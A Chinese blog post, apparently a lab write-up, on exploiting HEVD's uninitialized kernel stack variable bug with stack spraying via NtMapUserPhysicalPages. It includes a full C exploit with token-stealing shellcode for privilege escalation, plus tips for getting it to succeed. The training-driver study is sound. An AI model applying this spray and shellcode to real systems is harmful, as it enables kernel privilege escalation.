






<small>转载请注明出处哦 :  )</small>

## 0x00 前言
本篇的内容为未初始化内核栈变量漏洞分析利用 (Uninitialized Stack Variable)

## 0x01 未初始化栈变量漏洞分析
首先我们打开 UninitializedMemoryStack.c 文件



结合定义 UninitializedMemory 变量时没有对它进行初始化，可以看到，当我们的输入不等于 MagicValue 时，程序会直接 call [&UninitializedMemory + 4]，而这个值因为没有被初始化，又没有被赋值，所以会直接调用栈上的脏数据。若栈上的脏数据是我们的 shellcode 的地址的话，那我们又可以接管指令流了。

问题是，我们有什么办法可以使栈上的脏数据变为我们的 shellcode 的地址呢？

这里可以用到一种叫做栈喷射的方法，将大块的栈空间提前用我们的 shellcode 的地址去改写。以后若是在这个栈区域上发生了对未初始化函数指针的调用，就会执行我们的指令流了。

那么我们如何做到对内核栈进行喷射呢？（因为我们的漏洞是发生在内核模式下的，漏洞代码所使用的栈空间是内核栈，所以应该是对内核栈进行喷射而不是用户栈）

这里可以用到 NtMapUserPhysicalPages 函数。我们先看看这个函数的官方文档



这个函数正常来说是用在 AWE 的使用中的。但是这对我们来说不重要，我们的目的是栈喷射。稍微到 wrk1.2 中看看它的源码，我这里大概将与栈喷射相关的伪代码呈现出来

```c
#define COPY_STACK_SIZE             1024

NTSTATUS
NtMapUserPhysicalPages (
    __in PVOID VirtualAddress,
    __in ULONG_PTR NumberOfPages,
    __in_ecount_opt(NumberOfPages) PULONG_PTR UserPfnArray
    )
{
    ...
    ULONG_PTR StackArray[COPY_STACK_SIZE];
    ...
    PoolArea = (PVOID)&StackArray[0];
    ...

    if (NumberOfPages > COPY_STACK_SIZE) {
        PoolArea = ExAllocatePoolWithTag (NonPagedPool, NumberOfBytes, 'wRmM');
    
        if (PoolArea == NULL) {
            return STATUS_INSUFFICIENT_RESOURCES;
        }
    }
    

    Status = MiCaptureUlongPtrArray (PoolArea, UserPfnArray, NumberOfPages);

    ...
}

NTSTATUS
MiCaptureUlongPtrArray (
    OUT PVOID Destination,
    IN PVOID Source,
    IN ULONG_PTR ArraySize
    )
{
    try{
            ProbeForRead (Source,
                          ArraySize * sizeof(ULONG_PTR),
                          sizeof(ULONG_PTR));

            RtlCopyMemory (Destination,
                           Source,
                           ArraySize * sizeof(ULONG_PTR));

    } except(EXCEPTION_EXECUTE_HANDLER) {
        status = GetExceptionCode();
    }
}

```

大致上说，当我们调用 NtMapUserPhysicalPages 时，会在栈中分配一个 4096 个字节的变量 StackArray，而我们调用 NtMapUserPhysicalPages 时传递的参数 UserPfnArray 会被复制到这个位置上。

对于内核栈来说，4096个字节真的已经算挺大的了。若我们把这一段栈空间全部替换成我们的 shellcode 的地址，然后触发漏洞时未初始化变量所使用的栈又正好在这一段地址上，且这个位置的栈又正好没有被其它函数所修改过的话（从 RtlCopyMemory 执行完直到 UninitializedMemory.Callback() ），那么 UninitializedMemory.Callback() 的时候就会执行我们的 shellcode 了。

所以，没错，当我们调用完 NtMapUserPhysicalPages 后若立即调用 DeviceIoControl 去请求服务触发漏洞的话，这一切就是正好这么凑巧。

： )

## 0x02 未初始化栈变量漏洞利用
这个漏洞的利用原理其实挺简单的，但要真正使这个漏洞生效其实不容易。让变量落在这一段空间中倒是挺可能，毕竟 4096 个字节真的挺大的。问题是你很难确保未初始化变量所在的位置没有被其它函数修改过。

这里贴出 exp

```c
#include "stdafx.h"

#include <windows.h>

typedef NTSTATUS(WINAPI * NtMapUserPhysicalPages_t)(
	PVOID      VirtualAddress,
	ULONG_PTR  NumberOfPages,
	PULONG_PTR PageArray
);

char shellcode[] = {

	"\x90\x90\x90\x90"              // NOP Sled
	"\x60"                          // pushad
	"\x31\xc0"                      // xor eax,eax
	"\x64\x8b\x80\x24\x01\x00\x00"  // mov eax,[fs:eax+0x124]
	"\x8b\x40\x50"                  // mov eax,[eax+0x50]
	"\x89\xc1"                      // mov ecx,eax
	"\xba\x04\x00\x00\x00"          // mov edx,0x4
	"\x8b\x80\xb8\x00\x00\x00"      // mov eax,[eax+0xb8]
	"\x2d\xb8\x00\x00\x00"          // sub eax,0xb8
	"\x39\x90\xb4\x00\x00\x00"      // cmp [eax+0xb4],edx
	"\x75\xed"                      // jnz 0x1a
	"\x8b\x90\xf8\x00\x00\x00"      // mov edx,[eax+0xf8]
	"\x89\x91\xf8\x00\x00\x00"      // mov [ecx+0xf8],edx
	"\x61"                          // popad

	"\xC3"                          // ret
};

int main() {

	int value = 0x1;
	int *payload = &value;
	DWORD lpBytesReturned = 0;
	HANDLE hevDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, NULL, 0x3, 0, NULL);

	LPVOID ptr = VirtualAlloc(0, sizeof(shellcode), 0x3000, 0x40);
	RtlCopyMemory(ptr, shellcode, sizeof(shellcode));
	ULONG_PTR PageArray[1024] = { 0 };
	for (int i = 0; i < 1024; i++) {
		PageArray[i] = (ULONG_PTR)ptr;
	}

	HMODULE hModule = LoadLibrary("ntdll.dll");
	if (hModule == NULL) {
		printf("LoadLibrary failed\n");
		return 0;
	}
	NtMapUserPhysicalPages_t NtMapUserPhysicalPages = (NtMapUserPhysicalPages_t)GetProcAddress(hModule, "NtMapUserPhysicalPages");
	if (NtMapUserPhysicalPages == NULL) {
		printf("get proc address failed\n");
		return 0;
	}
	NtMapUserPhysicalPages(NULL, 1024, PageArray);

	DeviceIoControl(hevDevice, 0x22202f, payload, 0x4, NULL, 0, &lpBytesReturned, NULL);

	system("whoami");

	return 0;

}
```

### 关于 exp 无法 getshell 的可能原因
这里我在调试时发现







（这里就不把图片压缩太多了，不然怕你们看不清，所以加载可能会慢一点）

大家可以看到即使是 esp 再往低地址的空间也被什么东西修改过了，要一直到很远



才彻底没有被函数修改过。虽然中间可能存在 shellcode 的 gadget，但可以看到我们的漏洞函数的栈中是不存在任何 shellcode 的地址的。

这时候我就在想啊，一来看别人这个方法都是成功的，二来从 NtMapUserPhysicalPages 到 TriggerUninitializedMemoryStack 也就经历退出内核态回到用户态，以及 DriverEntry -> IrpDeviceIoCtlHandler -> UninitializedMemoryStackIoctlHandler -> TriggerUninitializedMemoryStack 这么一个过程，不至于用掉这么多空间吧。要说这过程中有什么东西可能插手的话，就只有可能是 Debug 了。

然后我就把 HEVD 驱动程序换成了 release 版本的，把 windbg 关掉，诶嘿，还真 getshell 了。

所以如果你的情况和我一样的话（首先确保栈喷射确实成功了），你不妨试试去掉所有 debug 因素。

## 0x03 结束语

： )

---
<p align='right'>2019.9.5</p>